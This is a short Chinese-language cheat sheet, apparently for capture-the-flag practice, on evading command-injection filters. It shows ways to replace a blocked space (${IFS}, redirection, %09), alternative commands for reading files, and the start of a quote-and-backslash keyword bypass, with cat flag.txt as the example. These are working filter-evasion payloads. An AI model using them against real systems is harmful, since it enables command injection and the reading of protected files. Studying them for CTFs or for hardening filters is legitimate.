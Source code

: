 

### 空格Bypass

在过滤了空格的系统中，以cat flag.txt为例，系统不允许我们输入空格或输入后被过滤。

- **${IFS}**

可使用${IFS}代替空格。

```php
cat${IFS}flag.txt
cat$IFS$1flag.txt
cat${IFS}$1flag.txt
```

- **重定向符绕过(<>)**

```php
cat<>flag.txt
cat<flag.txt
```

- **%09(需要php环境)**

php环境下web输入%09等效于空格

```php
cat%09flag.txt
```

- **`%0a`换行符**



### 文件读取

(1)more:一页一页的显示档案内容
(2)less:与 more 类似，但是比 more 更好的是，他可以[pg dn][pg up]翻页
(3)head:查看头几行
(4)tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
(5)tail:查看尾几行
(6)nl：显示的时候，顺便输出行号
(7)od:以二进制的方式读取档案内容
(8)vi:一种编辑器，这个也可以查看
(9)vim:一种编辑器，这个也可以查看
(10)sort:可以查看
(11)uniq:可以查看
(12)file -f:报错出具体内容



## 关键字Bypass

### 单双引号

- 单引号----`''`
- 双引号---`""`
- 反斜杠--- `\`
